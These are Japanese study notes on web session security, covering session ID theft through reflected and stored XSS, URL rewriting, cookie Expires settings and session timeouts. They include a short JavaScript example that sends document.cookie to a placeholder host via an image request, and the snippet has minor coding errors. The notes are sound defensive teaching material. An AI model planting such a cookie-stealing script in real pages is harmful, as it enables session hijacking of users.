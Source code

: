 * セッションIDが盗まれる脆弱性
* 悪意のあるスクリプト（通常はWebブラウザー上で動作するJS）がユーザーのWebブラウザー上で動作してしまう脆弱性

### 事故によるセッションIDの漏えいを防ぐ

#### XSSによるセッションIDの盗み出し

* 反射型(reflected)
    * XSS脆弱性のあるサイトのURLにユーザのCookieを盗み出すスクリプトを混入し、被害者にURLをクリックさせる
* 蓄積がった(stored)
    * レビュー欄やコメント欄など、ユーザが登録・閲覧ができる箇所に、閲覧したユーザのCookieを盗み出すスクリプトを混入する
    
```javascript
//Cookieを盗み出すJSの例
var badURL='http://zzz/q=' + document.cookie;
var img= new image();
image.src = badURL;
```

![image/security_2-01.png](image/security_2-01.png)

* セッションIDをURLに含めるのは極力避ける
* Webアプリケーションサーバーによっては、セッションIDをURLに自動的に埋め込む機能（URL Rewriting）を持っている場合がある
    * 必要がなければ、この機能は無効にしておく

### セッションの有効期限を理解して安全に実装する

* 安全なセッション管理を設計・実装するには、セッションIDの発行方法に加えて、セッションの有効期限とセッションタイムアウトを理解する必要がある
* CookieでセッションIDを発行する場合、CookieのExpires属性でクライアントPC上におけるCookieの有効期限を設定する
* Webブラウザーを終了した後もCookieをクライアントPC上に保存し、次回のアクセス時に利用したい場合は、有効期限をなるべく短く設定し、認証に関わる情報（ユーザーIDなど）は保存しないようにする
* Expires属性を指定しなかった場合は、Webブラウザーを終了した時点でCookieは破棄される
    * Webブラウザー終了後に残す必要が無ければExpires属性は指定しないようにする
* 一定時間ユーザーからのアクセスが無かった場合には、サーバー上のセッション変数を破棄する必要がある
    * このタイミングをセッションタイムアウトという
    * セッション情報が格納される場所は、ファイルやメモリー、DB
    * セッションタイムアウトは、クライアントからサーバーへのリクエストが一定時間ない場合に発生する
